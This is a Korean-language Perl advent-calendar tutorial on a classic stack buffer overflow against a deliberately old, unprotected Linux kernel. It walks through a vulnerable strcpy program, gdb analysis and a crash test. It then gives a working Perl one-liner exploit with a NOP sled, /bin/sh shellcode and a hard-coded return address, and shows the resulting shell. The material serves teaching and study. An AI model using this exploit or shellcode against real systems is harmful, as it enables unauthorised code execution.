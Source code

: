 Title:    익스플로잇과 펄
Package:  Seoul.pm
Category: perl
Category: Seoul.pm
Author:   h00ray

저자
-----

@h00ray - 시험기간에 공부 안하고 프로그래밍 하는 잉여잉여한 학생, javaapi86 _at_ gmail.com


시작하며
---------

2014년에 들어오면서 리눅스 환경에서의 굵직한 취약점이 발표되었습니다.
[Bash 쉘 쇼크][wiki-shellshock]라던가 [OpenSSL Heartbleed][wiki-heartbleed] 말이죠.
이번 기사에서 다룰 내용은 나열한 취약점과는 거리가 있지만,
리눅스 환경에서의 해킹을 조금이라도 맛 볼겸(?)
메모리 버그의 일종인 [버퍼 오버플로우(BOF, Buffer Overflow)][wiki-bof]를
이용한 해킹 기법을 살펴보겠습니다.

예제

우선 공격할 리눅스 정보입니다.

$uname -a
Linux localhost.localdomain 2.2.14-5.0 #1 Tue Mar 7 21:07:39 EST 2000 i686 unknown

버전이 매우 낮다는걸 알수있는데 사실 일부로 낮은 버전을 선택했습니다.
현재 최신 리눅스 커널은 해커들의 공격을 막기위해 많은 보호기법을 도입하고있는데 
그 예로는 
공격프로그램(exploit)이 스택이나 힙에서 실행되지 않도록하는 Nx-bit
메모리상의 공격을 방어하기위해 스택 주소를 랜덤하게 바꾸는 ASLR
상위주소를 \x00 값으로시작하게하는 즉 NULL처리를 시켜서 공격이 불가능하도록 하는 Ascii-armor
buffer와 return address에 사이의 임의의 값이 변하면 프로그램을 종료시켜버리는 Canary
Canary에 대해 더 설명을 하자면 해킹에 성공하기위해서는 eip를 제어해야하는데 eip를 제어할려면 return address를 덮어 씌어야합니다.
하지만 canary라는 보호기법이 return address를 모니터링하면서 값이 변하면 프로그램을 종료시켜 버리기때문에 한번에 공격할수있는 확률이 줄어들고 난이도도 올라가게됩니다.
 

이처럼 다양한 보호기법이 적용되면서 공격이 힘들지만 우회하는 방법이있습니다.
ROP(Return Oriented Programming)라는 공격기법입니다. 
이런 무지막지한 보호기법을 우회하려다 보니 매우 복잡하고 어렵다보니 이 달력에서는 설명하지않겠습니다.
rop에 관한 자세한 내용은 아래 링크를 참조해주세요.
http://teamcrak.tistory.com/332

그럼 지금부터 메모리 보호기법이 적용되어있지않은 리눅스 커널을 대상으로 간단한 해킹을 해보도록 하겠습니다.

공격할 프로그램입니다.
//vuln.c
//gcc -o vuln vuln.c
#include <stdio.h>

int main(int argc, char *argv[])
{
    char buffer[256];
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}

해킹에 성공하기 위해서는 "프로그램 구조를 개발자보다 잘 알아야 한다"라는 말이 있을정도로 
프로그램의 구조를 완벽하게 이해하고 있어야합니다.
그렇다면 이제 분석을 하기위해 gdb를 실행 해봅시다.
$gdb vuln 

(gdb) disass main
Dump of assembler code for function main:
0x80483f8 <main>:	push   %ebp
0x80483f9 <main+1>:	mov    %esp,%ebp
0x80483fb <main+3>:	sub    $0x100,%esp
0x8048401 <main+9>:	mov    0xc(%ebp),%eax
0x8048404 <main+12>:	add    $0x4,%eax
0x8048407 <main+15>:	mov    (%eax),%edx
0x8048409 <main+17>:	push   %edx
0x804840a <main+18>:	lea    0xffffff00(%ebp),%eax
0x8048410 <main+24>:	push   %eax
0x8048411 <main+25>:	call   0x8048340 <strcpy>
0x8048416 <main+30>:	add    $0x8,%esp
0x8048419 <main+33>:	lea    0xffffff00(%ebp),%eax
0x804841f <main+39>:	push   %eax
0x8048420 <main+40>:	push   $0x8048480
0x8048425 <main+45>:	call   0x8048330 <printf>
0x804842a <main+50>:	add    $0x8,%esp
0x804842d <main+53>:	leave  
0x804842e <main+54>:	ret    
0x804842f <main+55>:	nop    
End of assembler dump.

대충 봐도 현기증을 유발하는 디어셈블된 코드이지만 우리가 봐야 할 부분은 strcpy함수를 call하는부분 입니다.
0x8048411 <main+25>:	call   0x8048340 <strcpy> 여기만 주의 깊게 봐주면 됩니다!!!!

그렇다면 보기전에 간단하게 우선 strcpy함수를 알아봅시다.
strcpy(buffer, argv[1]);
argv[1]의 값을 buffer에 복사합니다.
네 끝이에요 한 마디로 
eax에는 buffer의 값 256byte
edx에는 argv[1]의 값이 들어가있습니다.

어셈블리 코드를 보면 edx(argv[1]) 값을 push 그후 eax(buffer)를 스택에push
strcpy(%eax,%edx); 이런식으로 들어가있는겁니다.
근데 과연 생각한게 맞는지 초호화 디버깅툴인 gdb를 사용해서 확인해보도록 하겠습니다.
디버깅을 할때 항상 그랬던 것 처럼 break point를 걸어줍니다.

(gdb) b *main+25
(gdb) r 1
Starting program: /home/vuln 1

Breakpoint 1, 0x8048411 in main ()
(gdb) x/s $edx
0xbffffca0:	 "1"

main+25에 break point를 걸었고 그후 인자를 1을 주고 실행해본결과 edx에는 역시 예상했던데로 1이라는 값이 들어가있습니다.
이제 0xffffff00이 뭘 뜻하는건지 알아야겠습니다. 16진수이므로 사람이 알아볼수있게 10진수로 바꾸면 256byte라는 값이나오네요.
256byte를 buffer가 사용하고있으니 256byte +4는 ret주소입니다.

$./vuln `perl -e 'print"A"x260'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

perl 스크립트를 사용해서 공격해봤습니다..(펄 달력인데 이제서야 펄이나오네요..ㅜㅜ)
공격 해보니 역시 ret값을 덮어쓰니 오류를 출력하면서 프로그램이 종료되네요.
자 이제 exploit script만 작성해주면 끝입니다.


$./vuln `perl -e 'print "\x90"x125 , "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80","\x90"x110,"\x38\xf9\xff\xbf"'`
1?h//shh/bin??°
                ?8
bash$
네 공격에 성공했습니다 ;)
이제 exploit을 살펴보자면 "\x90"은 nop입니다. 그냥 아무것도 안하고 다음 명령어로 넘어갑니다.
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" 이 부분은 쉘코드입니다. 간단하게 shell을 출력해주는 기계어 집합입니다.
"\x38\xf9\xff\xbf" 이 부분은 스택의 값인데요. gdb를 통해서 본 스택 주소를 넣어주었습니다.

마치면서
크리스마스 펄 달력이라는 내용과 맞게 펄에대한 팁이나 재미있는 내용을 주제로 선정했어야하는데... 평소에 해킹을 펄로 하다보니 글을 쓸수있는 주제가 한정되어 많이 아쉽네요.
그래도 이렇게 기회를 주신 여러 관계자분들께 감사하다는 인사를 보내면서 즐겁게 모두 한 해를 마무리하셨으면 좋겠습니다.
아 그리고 읽어주셔서 감사합니다!!


[wiki-bof]:             http://en.wikipedia.org/wiki/Buffer_overflow
[wiki-heartbleed]:      http://en.wikipedia.org/wiki/Heartbleed
[wiki-shellshock]:      http://en.wikipedia.org/wiki/Shellshock_%28software_bug%29

